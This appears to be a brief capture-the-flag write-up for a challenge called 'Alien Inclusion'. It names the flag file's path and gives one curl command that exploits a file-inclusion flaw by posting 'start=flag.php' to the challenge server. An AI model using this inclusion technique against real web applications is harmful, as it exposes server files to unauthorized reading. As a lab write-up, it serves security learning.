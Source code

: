 # Alien Inclusion
The flag is at /var/www/html/flag.php
---
In order to get it we use the curl command 
```
curl 'http://34.159.190.67:31100?start=something' -XPOST --data 'start=flag.php'
```
Mainly because we need to set the start GET param to something and we request the flag.php